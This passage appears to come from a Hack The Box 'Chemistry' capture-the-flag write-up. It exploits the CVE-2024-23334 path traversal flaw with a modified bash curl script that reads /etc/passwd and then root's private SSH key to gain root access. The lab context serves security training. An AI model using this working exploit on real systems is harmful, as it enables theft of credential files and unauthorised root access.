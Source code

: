 {{<figure src="/img/htb/chemistry/res_headers.png" position=center caption="Response Headers">}}

After some reasearch, we see that it might be vulnerable to CVE-2024-23334 which is a path traversal vulnerability.

Using this [poc](https://github.com/z3rObyte/CVE-2024-23334-PoC/blob/main/exploit.sh) (with some little changes):

{{<code language="bash" title="CVE-2024-23334 Exploit POC (modified)">}}
#!/bin/bash

url="http://127.0.0.1:8080"
string="../"
payload="/"
file="etc/passwd"

for ((i=0; i<15; i++)); do
    payload+="$string"
    echo "[+] Testing with $payload$file"
    status_code=$(curl --path-as-is -s -o /dev/null -w "%{http_code}" "$url$payload$file")
    echo -e "\tStatus code --> $status_code"

    if [[ $status_code -eq 200 ]]; then
        curl -s --path-as-is "$url$payload$file"
        break
    fi
done
{{</code>}}

We were able to retrieve the `/etc/passwd` file:

{{<figure src="/img/htb/chemistry/etc_passwd.png" position=center caption="Reading /etc/passwd">}}

We can repeat the same process in order to read the private key of the root user:

{{<figure src="/img/htb/chemistry/id_rsa.png" position=center caption="Reading root's private key">}}

We can use it to login as root and retrieve the flag:

{{<figure src="/img/htb/chemistry/root.png" position=center caption="Root flag obtained !">}}
